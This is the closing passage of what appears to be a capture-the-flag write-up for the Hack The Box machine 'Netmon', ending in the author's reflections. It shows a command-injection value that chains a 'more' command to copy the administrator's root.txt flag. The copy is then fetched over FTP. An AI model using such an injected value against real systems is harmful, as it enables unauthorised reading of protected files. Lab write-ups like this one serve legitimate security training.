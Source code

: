 ```test.txt;more c:\Users\Administrator\Desktop\root.txt > c:\sdb.txt```  
ftp> get sdb.txt
local: sdb.txt remote: sdb.txt
200 PORT command successful.
125 Data connection already open; Transfer starting.
WARNING! 2 bare linefeeds received in ASCII mode
File may not have transferred correctly.
226 Transfer complete.
74 bytes received in 0.04 secs (1.7553 kB/s)

root@apollo:~/htb/netmon# cat sdb.txt
��30189******************a67cc
```

We win! 

# Conclusion

How easy user was and how long I spent on it was a tad embarassing - but it reminded me to actually look at everything I get as a result and not assume I know what the answer is before I actually *know* what the answer is. Root was pretty fun - I really enjoyed that the creator made you think about the user and not just use a tool, brute forcing has its place but CTF machines are not really it imo.

